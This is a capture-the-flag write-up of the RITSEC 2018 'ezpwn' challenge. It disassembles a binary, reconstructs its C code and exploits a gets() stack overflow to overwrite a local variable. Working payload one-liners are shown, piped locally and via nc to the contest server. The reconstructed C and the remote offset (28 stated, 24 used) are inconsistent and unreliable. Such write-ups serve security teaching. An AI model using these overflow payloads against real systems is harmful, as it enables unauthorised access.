 # ezpwn

## Description

nc fun.ritsec.club 8001

---  
## Initial Start

There is a binary available for download which contains a 64 bit binary file.  
After downloading the program, I have used GDB to disassemble the code.

```  
gdb-peda$ disassemble main  
Dump of assembler code for function main:  
  0x0000000000001195 <+0>:      push   rbp  
  0x0000000000001196 <+1>:      mov    rbp,rsp  
  0x0000000000001199 <+4>:      sub    rsp,0x20  
  0x000000000000119d <+8>:      mov    DWORD PTR [rbp-0x8],0x0  
  0x00000000000011a4 <+15>:     lea    rdi,[rip+0xe59]        # 0x2004  
  0x00000000000011ab <+22>:     call   0x1040 <puts@plt>  
  0x00000000000011b0 <+27>:     lea    rax,[rbp-0x20]  
  0x00000000000011b4 <+31>:     mov    rdi,rax  
  0x00000000000011b7 <+34>:     mov    eax,0x0  
  0x00000000000011bc <+39>:     call   0x1080 <gets@plt>  
  0x00000000000011c1 <+44>:     cmp    DWORD PTR [rbp-0x8],0x1  
  0x00000000000011c5 <+48>:     jne    0x121b <main+134>  
  0x00000000000011c7 <+50>:     lea    rsi,[rip+0xe50]        # 0x201e  
  0x00000000000011ce <+57>:     lea    rdi,[rip+0xe4b]        # 0x2020  
  0x00000000000011d5 <+64>:     call   0x1090 <fopen@plt>  
  0x00000000000011da <+69>:     mov    QWORD PTR [rbp-0x10],rax  
  0x00000000000011de <+73>:     mov    rax,QWORD PTR [rbp-0x10]  
  0x00000000000011e2 <+77>:     mov    rdi,rax  
  0x00000000000011e5 <+80>:     call   0x1070 <fgetc@plt>  
  0x00000000000011ea <+85>:     mov    BYTE PTR [rbp-0x1],al  
  0x00000000000011ed <+88>:     jmp    0x1209 <main+116>  
  0x00000000000011ef <+90>:     movsx  eax,BYTE PTR [rbp-0x1]  
  0x00000000000011f3 <+94>:     mov    edi,eax  
  0x00000000000011f5 <+96>:     call   0x1030 <putchar@plt>  
  0x00000000000011fa <+101>:    mov    rax,QWORD PTR [rbp-0x10]  
  0x00000000000011fe <+105>:    mov    rdi,rax  
  0x0000000000001201 <+108>:    call   0x1070 <fgetc@plt>  
  0x0000000000001206 <+113>:    mov    BYTE PTR [rbp-0x1],al  
  0x0000000000001209 <+116>:    cmp    BYTE PTR [rbp-0x1],0xff  
  0x000000000000120d <+120>:    jne    0x11ef <main+90>  
  0x000000000000120f <+122>:    mov    rax,QWORD PTR [rbp-0x10]  
  0x0000000000001213 <+126>:    mov    rdi,rax  
  0x0000000000001216 <+129>:    call   0x1050 <fclose@plt>  
  0x000000000000121b <+134>:    mov    eax,DWORD PTR [rbp-0x8]  
  0x000000000000121e <+137>:    mov    esi,eax  
  0x0000000000001220 <+139>:    lea    rdi,[rip+0xe02]        # 0x2029  
  0x0000000000001227 <+146>:    mov    eax,0x0  
  0x000000000000122c <+151>:    call   0x1060 <printf@plt>  
  0x0000000000001231 <+156>:    mov    eax,0x0  
  0x0000000000001236 <+161>:    leave  
  0x0000000000001237 <+162>:    ret  
End of assembler dump.

```

This is a fairly simple program. Since this is a short program, I will take
this time to practice on reversing back to C code.

```  
int main(){

   int x = 0;  
   char buffer;  
   FILE *f;

   puts("Please enter your API key");  
   gets(&buffer);  
   f = fopen("flag.txt","r");  
   if(x==1){  
       while(y != -1){  
           y=fgetc(f); // Acts like the decrement  
           putchar(y);  
           fclose(f);  
       }  
   }  
   printf("%d\n",x);  
}  
```  
To test it out, we need to create a dummy flag.txt file

```  
echo "Flag: flag{1234}" > flag.txt  
```

Here, gets was used which pays no attention to how much input can be put. So
trying a few random payload on the server, we get this.  
```  
root@kali:~/Desktop/ritsec2018/pwn# nc fun.ritsec.club 8001  
Please enter your API key  
asd  
0

root@kali:~/Desktop/ritsec2018/pwn#  nc fun.ritsec.club 8001  
Please enter your API key  
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII  
1212696648  
```  
We can see that after a certain length, we see numbers. The reason these
numbers can be seen is because we have overwritten into the stack and ended up
overwriting the variable x which will be printed out as in the pseudocode
after tje flag is being printed out with putchar function

---  
## Locally  
Checking from GDB,

```  
# This is where x = 0  
0x000000000000119d <+8>:        mov    DWORD PTR [rbp-0x8],0x0

# This is where we store the input buffer into using the gets function  
0x00000000000011b0 <+27>:       lea    rax,[rbp-0x20]  
0x00000000000011b4 <+31>:       mov    rdi,rax  
0x00000000000011b7 <+34>:       mov    eax,0x0  
0x00000000000011bc <+39>:       call   0x1080 <gets@plt>  
```  
As we can see, the two addresses are `rbp-0x8` and `rbp-0x20`  
of which the difference is

```  
>>> 0x20-0x8  
24  
```

So we can now generate a payload and test it out.

```  
python -c "print 'A'*24 + 'BBBB' " | ./ezpwn  
```  
and we can see  
```  
root@kali:~/Desktop/ritsec2018/pwn# python -c "print 'A'*24 +'BBBB'" | ./ezpwn  
Please enter your API key  
1111638594  
```

Here 1111638594 = 0x42424242 which means that now we only need to change this
value to 1.

So following the little Endian Format, we can generate a payload

```  
root@kali:~/Desktop/ritsec2018/pwn# python -c "print 'A'*24 + '\x01\x00\x00\x00'" | ./ezpwn  
Please enter your API key  
Flag: flag{1234}  
1  
```

---

## Remotely  
The same was being tested but for some reason, I kept getting a 0 and it turns
out after trying the same technique with fixed sequence, the number of buffer
to overwrite is a little different. Instead of 24, it is 28

```  
>>> hex(1212696648)  
'0x48484848'  
>>> chr(0x48)  
'H'  
>>> len("AAAABBBBCCCCDDDDEEEEFFFFGGGG")  
28  
```

Thus The payload is

```  
root@kali:~/Desktop/ritsec2018/pwn# python -c "print 'a'*24 +
'\x01\x00\x00\x00'"| nc fun.ritsec.club 8001  
Please enter your API key  
RITSEC{Woah_Dud3_it's_really_that_easy?_am_i_leet_yet?}1  
root@kali:~/Desktop/ritsec2018/pwn#  
```

Flag: RITSEC{Woah_Dud3_it's_really_that_easy?_am_i_leet_yet?}  
---  
---